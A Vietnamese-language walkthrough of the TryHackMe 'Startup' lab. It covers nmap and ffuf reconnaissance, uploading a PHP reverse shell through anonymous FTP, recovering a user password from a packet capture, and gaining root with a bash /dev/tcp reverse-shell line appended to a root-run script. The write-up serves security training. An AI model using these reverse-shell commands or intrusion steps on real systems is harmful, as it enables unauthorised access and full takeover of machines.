# [THM] Startup write-up

- IP: 10.10.222.75

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.222.75



Có 3 port dịch vụ đang mở bao gồm
- Port 21 chạy dịch vụ FTP
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Ta sẽ cùng đi khám phá các port dịch vụ trên. Đầu tiên là với port 21 dịch vụ FTP có thể login với anonymous account



Khám phá với port 80


Tiếp đến ta sẽ đi scan các thư mục ẩn bằng công cụ ffuf
> ffuf -u "http://10.10.222.75/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt



Nhận thấy rằng có thư mục ẩn `/files` khi truy cập thấy có cấu trúc thư mục tương tự như ftp



## Exploit
Khi có cấu trúc file như FTP ta sẽ thử up reverse shell thông qua FTP lên và truy cập xem sao nhé. **File shell.php có thể tham khảo và lấy ở bài Plotted-TMS bên trên**


Như vậy là đã up được reverse shell giờ ta thử tạo `netcat listen` và truy cập thành công vào web shell


Khi truy cập được vào shell đã cố gắng để xem file user.txt nhưng mà không có quyền vì vậy tôi đã khám phá tất cả nhũng thư mục hay file bất thường ở đây và phát hiện ra file `suspicious.pcapng` đây là file chưa thông tin về các gói dữ liệu bị chặn từ mạng được lưu trữ. Sử dụng **python3** và **wget** để lấy file đó từ server `python3 -m http.server` 

Thực hiện phân tích bằng **wireshark** ta lấy được mật khẩu của user nào nó


Sau khi thử và biết được đó là mật khẩu của user `lennie`



## user.txt
Ta đã lấy được flag ở file user.txt



## Privilege escalation
Ta tìm kiếm các thông tin trong thư mục của người dùng và nhận thấy có tệp `planner.sh` được thực thi bằng quyền root mà ta không thể chỉnh sửa bằng user hiện tại


Nội dung của file `planner.sh` và ta nhận thấy xuất hiện file `/etc/print.sh`

Kiểm tra và nhận thấy có thể chỉnh sửa file `print.sh`


Chạy câu lệnh `echo 'bash -i >& /dev/tcp/10.21.113.26/4321 0>&1' >> print.sh` để thực hiện ghi nội dung vào cuối file và sau đó tạo trình **netcat listen** trên máy attacker đã nhận được root shell



## root.txt
Thực hiện leo thang đặc quyền thành công và tìm thấy flag trong file root.txt



